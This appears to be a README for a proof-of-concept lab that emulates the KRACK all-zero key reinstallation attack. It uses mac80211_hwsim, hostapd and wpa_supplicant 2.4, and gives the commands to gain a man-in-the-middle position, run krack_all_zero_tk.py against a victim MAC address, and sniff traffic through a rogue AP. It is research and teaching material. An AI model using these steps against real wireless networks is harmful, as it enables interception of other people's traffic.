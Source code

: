 # Proof Of Concept (Emulation with mac80211_hwsim)

## Assumptions
In this tutorial we assume that the machine is connected to the Internet via 2 interfaces, that here we call `eth0` and `eth1`. Furthermore, we also assume that, after loading the module `man80211_hwsim` with `N` radios, their respective virtual interfaces will be named `wlan0, wlan1, ..., wlan(N-1)` by the system.

We tested the simulation in a **Virtual Machine running Kali Linux, with two Network Adapters between it and the Host Machine using one single NAT Network**. 

NOTE: We had hard times trying the attack on other Distros.

## Initialise the Network Emulation

First, make sure that both interfaces `eth0` and `eth1` are available.

```bash
sudo ./init_network.sh eth1
```

```bash
sudo systemctl stop dnsmasq.service # Only if it is running
```

## Create and connect Supplicant and Authenticator
### Start the Access Point

```bash
sudo ip netns exec hostapd ./enable_internet_forwarding.sh eth1 wlan0
sudo ip netns exec hostapd dnsmasq -d -C dnsmasq.conf
```
Open a new Terminal session in this folder and run:

```bash
sudo su
source init_env_sup_ap
ip netns exec hostapd ./hostapd-2.4 hostapd.conf
```

### Start the Supplicant
Open a new Terminal session in this folder and run:
```bash
sudo su
source init_env_sup_ap
ip netns exec supplicant ./wpa_supplicant-2.4 -D nl80211 -i wlan1 -c supplicant.conf
```

### Test connection
Open a new Terminal session in this folder and run:
```bash
sudo ip netns exec hostapd ping krackattacks.com
sudo ip netns exec supplicant dhcpcd -n wlan1
sudo ip netns exec supplicant ping krackattacks.com
```
```bash
sudo ip netns exec supplicant iw dev
```

## Add MitM and perform the Attack
### Initialise Krackattack environment
Open a new Terminal session in `../krackattack-all-zero-tk-key/krackattack` and run:
```bash
sudo su
rfkill unblock wifi
source ../../poc-emulation/init_env_mitm
../../poc-emulation/enable_internet_forwarding.sh eth0 wlan3
pyenv shell 2.7.18
```

### Obtain MitM position and Reinstall Key
In the same session, while root, execute:
```bash
python ./krack_all_zero_tk.py wlan2 wlan3 eth0 "simulnet" -t <victim_mac_addr>
```
### Test connection
In a new session run some tests:
```bash
ping krackattacks.com
sudo ip netns exec supplicant ping krackattacks.com
sudo ip netns exec supplicant iw dev
```
### Sniff the traffic
Open Wireskark and sniff traffic on interface `wlan3` (the Interface of the Rougue AP).

### Check with patched `wpa_supplicant`


## De-initialise the Network Emulation
```bash
sudo ./clear.sh eth1
```
